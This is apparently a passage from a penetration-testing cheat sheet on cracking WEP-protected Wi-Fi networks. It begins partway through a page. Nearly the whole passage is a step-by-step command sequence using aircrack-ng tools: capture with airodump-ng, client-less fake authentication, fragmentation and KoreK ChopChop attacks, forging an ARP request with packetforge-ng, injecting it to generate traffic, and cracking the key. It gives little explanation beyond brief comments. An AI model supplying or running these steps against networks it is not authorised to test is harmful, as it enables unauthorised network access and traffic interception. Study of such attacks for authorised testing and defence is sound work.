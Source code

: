 **Fragmentation attack**:
Redirecting dest IP to a controlled IP, tricking the AP to decrypt the fragmented packet

```bash
# airodump-ng --bssid <BSSID> -w wep wlan1mon

aireplay-ng -5 -b <BSSID> -h <STATION MAC> <interface>
packetforge-ng -0 -a <BSSID> -h <STATION MAC> -l <Source IP> -k <Dest IP> -y <xor filename> -w <output filename>
aireplay-ng -2 -r <packet filename> wlan1mon
```

#### Client-Less Fake Authentication

```bash
# airodump-ng --bssid <BSSID> -w wep wlan1mon

aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC> wlan1mon

# OR
# -1 6000 : Reauthenticate every 6000s
# -o 1 : Send only one set of packets at a time
# -q 10 : Send keep alive packets every 10 seconds
aireplay-ng -1 6000 -o 1 -q 10 -e <ESSID> -a <BSSID> -h <MAC> wlan1mon
```

Then use the Fragmentation (or ChopChop) attack

```bash
aireplay-ng -5 -b <BSSID> -h <MAC> wlan1mon
#  Use this packet ? y
#  Outputting xor and cap files

# If not successful use KoreK ChopChop attack
aireplay-ng -4 -h <MAC> -b <BSSID> wlan1mon
#  Use this packet ? y
#  Outputting xor and cap files
```

Reuse this to forge a new packet

```bash
packetforge-ng -0 -a <BSSID> -h <MAC> -k 255.255.255.255 -l 255.255.255.255 -y fragment.xor -w arp-request.cap
```
 
Relaunch airodump and inject the crafted packet

```bash
airodump-ng -c X --bssid <BSSID> -w new_capture wlan1mon
aireplay-ng -2 -r arp-request wlan1mon
#Use this packet ? y
```

Crack the captures

```bash
aircrack-ng -b <BSSID> capture*.cap 
```
